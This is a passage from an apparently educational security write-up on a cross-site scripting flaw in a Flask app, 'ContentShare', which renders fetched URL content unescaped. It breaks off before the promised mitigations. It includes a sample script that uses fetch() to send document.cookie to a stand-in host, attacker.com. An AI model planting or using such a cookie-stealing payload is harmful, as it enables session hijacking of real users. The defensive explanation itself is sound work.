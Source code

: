 The provided Flask web application, **ContentShare**, allows users to submit a URL, fetches the content from that URL, and displays it on the website. While the intention is to enable content sharing, the application contains significant vulnerabilities that can be exploited by malicious actors. Below is a detailed explanation of the exploitation method, followed by best practices to mitigate such vulnerabilities in the future.

---

## **1. Exploitation: Cross-Site Scripting (XSS) Vulnerability**

### **Understanding the Vulnerability**

The primary vulnerability in the **ContentShare** application is **Cross-Site Scripting (XSS)**. XSS allows attackers to inject malicious scripts into web pages viewed by other users. Here's how the exploitation works in this context:

1. **User Input Handling:**
   - The application accepts a user-submitted URL through a form.
   - The URL is validated using the `is_valid_url` function to ensure it uses HTTP(S) and does not point to private IP ranges or localhost.

2. **Content Fetching:**
   - Once validated, the application fetches the content from the provided URL using the `fetch_content` function.
   - The fetched content (which can be any HTML or JavaScript) is then embedded directly into the `CONTENT_TEMPLATE` using Flask's `render_template_string` with the `{{ content | safe }}` directive.

3. **Rendering the Content:**
   - The `{{ content | safe }}` directive tells Flask to render the content without escaping HTML characters. This means any `<script>` tags or JavaScript within the fetched content will be executed by the browser when the page is rendered.

### **Exploitation Scenario**

An attacker can exploit this vulnerability as follows:

1. **Create Malicious Content:**
   - The attacker hosts malicious content on a public server. For example, an HTML page containing a `<script>` tag that steals session cookies or performs actions on behalf of the user.
   
   ```html
   <!-- Malicious Content -->
   <script>
       fetch('https://attacker.com/steal?cookie=' + document.cookie);
   </script>
   ```

2. **Submit the Malicious URL:**
   - The attacker submits the URL of the malicious content to the **ContentShare** application via the submission form.

3. **Content Rendering:**
   - The application fetches the malicious content and embeds it directly into the `CONTENT_TEMPLATE` without sanitization.
